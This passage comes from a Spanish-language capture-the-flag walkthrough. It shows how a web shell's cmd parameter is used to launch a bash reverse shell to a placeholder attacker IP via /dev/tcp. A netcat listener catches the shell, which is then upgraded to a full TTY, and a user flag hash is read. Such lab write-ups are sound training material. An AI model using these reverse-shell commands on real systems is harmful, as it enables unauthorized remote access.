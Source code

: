 Vemos que esta funcionando de forma correcta, por lo que vamos a realizar una `reverse shell`.

```
URL = http://<IP>:8080/shell.php?cmd=/bin/bash -c "/bin/bash -i >%26 /dev/tcp/<IP_ATTACKER>/<PORT> 0>%261"
```

Ahora antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Si enviamos lo anterior y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.75] 46598
bash: cannot set terminal process group (461): Inappropriate ioctl for device
bash: no job control in this shell
ben@ready:/var/www/html$ whoami
whoami
ben
```

Vemos que hemos accedido de forma correcta con el usuario `ben` por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Ahora que ya tenemos una shell mas limpia vamos a leer la `flag` del usuario.

> user.txt

```
e5d3f520423fdef77195ac688ecc27cb
```

## Escalate Privileges
